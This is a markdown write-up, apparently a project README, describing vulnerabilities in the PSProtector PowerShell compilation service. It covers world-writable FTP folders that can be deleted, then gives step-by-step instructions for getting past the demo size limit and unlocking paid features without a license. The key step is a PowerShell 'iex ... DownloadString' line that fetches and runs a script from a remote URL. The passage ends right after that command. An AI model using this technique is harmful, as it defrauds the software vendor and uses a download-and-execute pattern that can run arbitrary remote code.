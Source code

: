 ***DETAILS***

As mentionned above, the system works by uploading 2 files on the server in the /Input folder. Then waiting for the generated assembly
to be created in the /Output folder.
As of this moment, those 2 folders have read/write permissions from everyone. If some user connects to the server using a client like
WinSCP, or uses any other FTP client, and **DELETE the INPUT DIRECTORY** All the *PsProtector applications* will return an error when attempting
a conversion. The error is **INVALID LOCATION** returned by the FTP server, when the client uploads his files.

To fix this issue, the Input and Output folders would need to be writable by everyone in them, but the folder themselves need to be protected from deletion except from the Administrator.



<br>

-------------------

<br>


## Exploiting unresolved bugs and software vulnerabilities

I did an extensive analysis of PSProtector app, along with the backend service, traffic analysis using [WireShark](https://www.wireshark.org/) and various tests.
This gave me intimate knowledge of how the system works and how to exploit some bugs in order to unlock full functionalities without a license.

<br>
<br>

### Procesing Modules bigger than 200 bytes in Demo mode

Let's begin by addressing the 200 characters limit in demo mode. The restriction is done *both on the client-side and the server-side* which is how it should be, however, the check on the server-side is done **by calculating the size of the file before processing it**. This is a bug because the server should check the size of the **data to be processed**, the script code to be compiled. **Not the content of the script**. You may be confused, but there is a nuance.

We can trick the server into downloading our script. To do this, you need a personal website, or a public [github](https://github.com/) repository.

1. Create a text file containing the module to be compiled. It can be a ```.psm1``` or a ```.txt``` file in case you use a website and you don't have a PSM1 [Mime Type](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/MIME_types/Common_types) . I personally dumped my PSM1 file in a txt file.
2. Upload your text file to your website, or your [github](https://github.com/) repository. Grab the URL that links to your file.
3. Locally create a ```.psm1``` module file that you will convert with PSProtector. Make it's content like this:

```powershell

    iex ((New-Object System.Net.WebClient).DownloadString(" <url of he file you uploaded> "))

```
